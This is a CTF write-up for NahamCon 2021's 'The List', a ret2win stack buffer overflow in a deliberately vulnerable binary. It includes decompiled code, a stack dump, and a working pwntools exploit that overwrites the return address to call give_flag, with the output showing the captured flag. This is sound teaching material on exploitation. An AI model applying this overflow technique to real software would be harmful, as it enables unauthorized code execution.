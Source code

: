 # NahamCon CTF 2021

## The List [easy]

> Author: @M_alpha#3534
>
> We need you to compile a list of users for the event. Here's a program you can use to help.
>
> [the_list](the_list)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _ret2win_


## Summary

Looks like heap, _but do not be fooled_, it's just basic _bof_ _ret2win_.

From this menu:

```
1. Print users
2. Add user
3. Delete user
4. Change user's name
5. Exit
```

Just keep adding users until _bof_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no canary, ripe for _rop_ and _bof_.

### Decompile with Ghidra

```c
void add_user(long param_1)
{
  size_t sVar1;
  int local_1c;
  
  local_1c = 0;
  while (*(char *)(param_1 + (long)local_1c * 0x20) != '\0') {
    local_1c = local_1c + 1;
  }
  printf("Enter the user\'s name: ");
  fgets((char *)((long)local_1c * 0x20 + param_1),0x20,stdin);
  sVar1 = strcspn((char *)(param_1 + (long)local_1c * 0x20),"\r\n");
  *(undefined *)((long)local_1c * 0x20 + param_1 + sVar1) = 0;
  puts("User added!");
  putchar(10);
  return;
}
```

`add_user` does not limit the number of users; that, plus the lack of a canary in `main` is the vulnerability.

> When abusing `add_user`, note that it counts the users by checking if the first character of _name_  is _not_ `\0`, this will mess with your math a bit.


```c
undefined8 main(void)
{
  size_t sVar1;
  undefined local_248 [524];
  undefined4 local_3c;
  char local_38 [47];
  char local_9;
  
  local_9 = '\x01';
  memset(local_248,0,0x200);
  printf("Enter your name: ");
  fgets(local_38,0x20,stdin);
  sVar1 = strcspn(local_38,"\r\n");
  local_38[sVar1] = '\0';
  printf("Welcome %s!\n",local_38);
  putchar(10);
  while (local_9 != '\0') {
    menu();
    __isoc99_scanf(&%d,&local_3c);
    getchar();
    switch(local_3c) {
    default:
      puts("Invalid choice!");
      break;
    case 1:
      print_users((long)local_248);
      break;
    case 2:
      add_user((long)local_248);
      break;
    case 3:
      delete_user((long)local_248);
      break;
    case 4:
      change_uname((long)local_248);
      break;
    case 5:
      local_9 = '\0';
    }
    local_3c = 0;
  }
  puts("Goodbye!");
  return 0;
}
```

**WARNING:** While overflowing the buffer `local_248`, `local_9` must remain `\x01` or you may suffer from premature ejection before you are able to finish off your sploit.

Right, so call `add_user` `0x248 // 0x20` (18) times to put us `0x248 - 0x20 * (0x248 // 0x20)` (8) bytes from the return address, _right?_

Well..., some garbage is in the way:


```
0x00007ffda532aa20│+0x01e0: 0x0000000000000041 ("A"?)
0x00007ffda532aa28│+0x01e8: 0x0000000000000000
0x00007ffda532aa30│+0x01f0: 0x0000000000000000
0x00007ffda532aa38│+0x01f8: 0x0000000000000000
0x00007ffda532aa40│+0x0200: 0x0000000000000002
0x00007ffda532aa48│+0x0208: 0x0000000200401a5d
0x00007ffda532aa50│+0x0210: 0x0000000068616c62 ("blah"?)
0x00007ffda532aa58│+0x0218: 0x0000000000401a10  →  <__libc_csu_init+0> endbr64
0x00007ffda532aa60│+0x0220: 0x0000000000000041 ("A"?)
0x00007ffda532aa68│+0x0228: 0x0000000000401250  →  <_start+0> endbr64
0x00007ffda532aa70│+0x0230: 0x00007ffda532ab70  →  0x0000000000000001
0x00007ffda532aa78│+0x0238: 0x0100000000000000
0x00007ffda532aa80│+0x0240: 0x0000000000000000	 ← $rbp
0x00007ffda532aa88│+0x0248: 0x00007f91ec9270b3  →  <__libc_start_main+243> mov edi, eax
```

Above is the stack after writing _17_ users with the name `A`.  Look at line `+0x0200`, that `2` is uninitialized stack trash; `add_user` assumes that if not `\0` then it must be a user.  So, to get within striking distance of the return address we only need to add _17_ users since `add_user` skipped over _the trash_.

> We're basically in uninitialized stack garbage at this point, we're also lucky that line `+0x0220` was `\0`.

Line `+0x0238` is `local_9`; when adding the 17th user (18th actually since 17th was free curtesy of _uninitialized stack garbage_), it is important to keep the name short to avoid overwriting `local_9`--null that out, and, well, you cannot add your final user, your attack.

> NOTE: _uninitialized stack garbage_ is _not_ random.  You can frequently count on it to bail you out.

The next user added will overwrite `$rdp`, followed by the return address. 

```
void give_flag(void)
{
  stat local_a8;
  char *local_18;
  int local_c;
  
  local_c = open("flag.txt",0);
  if (local_c < 0) {
    puts("Could not open the flag.");
    exit(1);
  }
  fstat(local_c,&local_a8);
  local_18 = (char *)malloc(local_a8.st_size);
  read(local_c,local_18,local_a8.st_size);
  puts(local_18);
  free(local_18);
  close(local_c);
  exit(0);
}
```

There is a _win_ function, so just append that after 8 bytes for your last user.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./the_list')

if args.REMOTE:
	p = remote('challenge.nahamcon.com', 31980)
else:
	p = process(binary.path)
	libc = binary.libc

p.sendlineafter('name: ','blah')

for i in range(0x248 // 0x20 - 1):
	log.info('adding user: ' + str(i+1))
	p.sendlineafter('> ','2')
	p.sendlineafter('name: ',b'A')

payload  = b''
payload += 8 * b'A'
payload += p64(binary.sym.give_flag)

p.sendlineafter('> ','2')
p.sendlineafter('name: ',payload)
p.sendlineafter('> ','5')
p.stream()
p.close()
```


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/the_list/the_list'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 31980: Done
[*] adding user: 1
[*] adding user: 2
[*] adding user: 3
[*] adding user: 4
[*] adding user: 5
[*] adding user: 6
[*] adding user: 7
[*] adding user: 8
[*] adding user: 9
[*] adding user: 10
[*] adding user: 11
[*] adding user: 12
[*] adding user: 13
[*] adding user: 14
[*] adding user: 15
[*] adding user: 16
[*] adding user: 17
Goodbye!
flag{0eb219803dbfcda8620dae0772ae2d72}
```

